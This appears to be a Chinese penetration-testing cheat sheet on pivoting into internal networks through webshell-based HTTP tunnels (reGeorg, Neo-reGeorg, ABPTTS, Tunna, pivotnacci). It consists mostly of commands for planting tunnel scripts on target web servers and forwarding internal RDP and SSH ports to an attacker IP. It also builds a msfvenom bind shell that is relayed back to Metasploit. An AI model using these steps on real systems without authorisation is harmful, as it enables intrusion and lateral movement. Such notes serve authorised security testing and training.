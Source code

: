 #### reGeorg
	https://github.com/sensepost/reGeorg
	>python reGeorgSocksProxy.py -u http://靶机/tunnel.aspx -l 外网IP -p 10080
	打开Proxifier，更改为脚本指定的端口10080
![image](/assets/Pentest_Note/master/img/332.png)

	或proxychains
	>vim /etc/proxychains.conf
	去掉dynamic_chain注释>添加socks5 127.0.0.1 10080
![image](/assets/Pentest_Note/master/img/333.png)

	或MSF
	>setg proxies socks5:外网IP:10080
	>setg ReverseAllowProxy true 允许反向代理
![image](/assets/Pentest_Note/master/img/334.png)
#### Neo-reGeorg
	Step 1. 设置密码生成 tunnel.(aspx|ashx|jsp|jspx|php) 并上传到WEB服务器
	$ python3 neoreg.py generate -k password
![image](/assets/Pentest_Note/master/img/335.png)

	伪装页面
	$ python3 neoreg.py generate -k <you_password> --file 404.html
	Step 2. 使用 neoreg.py 连接WEB服务器，在本地建立 socks 代理
	$ python3 neoreg.py -k password -u http://xx/tunnel.php
	$ python3 neoreg.py -k <you_password> -u <server_url> --skip
	开启代理
	$ python neoreg.py -k <you_password> -l 外网IP -p 10081 -u http://xx/neo-tunnel.aspx
![image](/assets/Pentest_Note/master/img/336.png)
![image](/assets/Pentest_Note/master/img/337.png)
#### ABPTTS端口转发
	https://github.com/nccgroup/ABPTTS
	端口转发
	>python abpttsfactory.py -o webshell 生成shell
	./webshell目录下生成的相应脚本文件传入目标中
	>python abpttsclient.py -c webshell/config.txt -u "http://目标网址/trans.aspx" -f 攻击机IP:12345/目标IP:3389
![image](/assets/Pentest_Note/master/img/338.png)
![image](/assets/Pentest_Note/master/img/339.png)
![image](/assets/Pentest_Note/master/img/340.png)

	ABPTTS转发内网其他机器端口
	>python abpttsclient.py -c webshell/config.txt -u http://192.168.0.98/qq.aspx -f 192.168.0.107:33890/10.1.1.105:3389
![image](/assets/Pentest_Note/master/img/341.png)
![image](/assets/Pentest_Note/master/img/342.png)

	要转发多个机器或多个端口
	>python abpttsclient.py -c webshell/config.txt -u http://192.168.0.98/qq.aspx -f 192.168.0.107:33890/10.1.1.105:3389 -f 192.168.0.107:33891/10.1.1.101:80 -f 192.168.0.107:33892/10.1.1.102:22
	SSH代理一级网段
	需要一台有权限的Linux靶机
	>python abpttsclient.py -c webshell/config.txt -u http://192.168.0.98/qq.aspx -f 192.168.0.107:33890/10.1.1.108:22
	>ssh -p 222 -qTfnN -D 0.0.0.0:1081 root@192.168.0.107
![image](/assets/Pentest_Note/master/img/343.png)

	配置proxychains即可
![image](/assets/Pentest_Note/master/img/344.png)

	SSH代理二级网段
	需要靶机web权限，一级内网一台web权限
	转发内网web出来传入abptts的shell
	>python abpttsclient.py -c webshell/config.txt -u http://192.168.0.98/qq.aspx -f 192.168.0.107:8080/10.1.1.108:80 
	>python abpttsclient.py -c webshell/config.txt -u http://192.168.0.107/qq.aspx -f 192.168.0.107:222/10.1.1.106:22
	SSH连接192.168.0.107:222即可到达二级网络
	反弹msf
	kali生成bind型脚本
	>msfvenom -p linux/x64/shell_bind_tcp LPORT=12138 -f elf -o shell
	在二级不出网linux上执行
	将他的12138端口通过abptts转出
	>python abpttsclient.py -c webshell/config.txt -u http://192.168.0.98/qq.aspx -f 192.168.0.107:13128/10.1.1.101:12138
	Msf本地监听13128即可
#### Tunna转发
	>python proxy.py -u http://192.168.0.98/tunnel.aspx -l 12138 -r 3389 –v
![image](/assets/Pentest_Note/master/img/345.png)

#### pivotnacci
	>pip3 install pivotnacci
	>pivotnacci  https://domain.com/agent.php --password "s3cr3t"
	>pivotnacci  https://domain.com/agent.php --polling-interval 2000
